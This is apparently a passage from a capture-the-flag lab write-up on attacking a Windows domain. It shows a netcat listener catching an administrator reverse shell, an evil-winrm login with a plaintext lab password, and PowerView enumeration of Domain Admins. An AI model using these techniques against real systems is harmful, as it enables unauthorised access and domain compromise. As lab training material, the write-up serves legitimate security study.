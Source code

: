 ```bash
┌──(kali㉿kali)-[~/thm]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.125.202] 50292
whoami
controller\administrator
ps>
```


## Enumeration w/ Powerview
---

> Cheat Sheet: [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

> Official Doc: https://powersploit.readthedocs.io/en/latest/

```bash
┌──(kali㉿kali)-[~/thm]
└─$ evil-winrm -i 10.10.70.75 -u Administrator -p 'P@$$W0rd' -s /opt/sectools/powershell/PowerSploit/Recon

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> PowerView.ps1
*Evil-WinRM* PS C:\Users\Administrator\Documents> menu

[+] Add-DomainGroupMember
[+] Add-DomainObjectAcl
[+] Add-RemoteConnection
[+] Add-Win32Type
[+] Convert-ADName
[+] Convert-DNSRecord
...
```

> It loads super slow when using script from `-s` in **evil-winrm**, should use `downloadstring` to avoid this 

Get Domain Admins:
```bash
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```

---

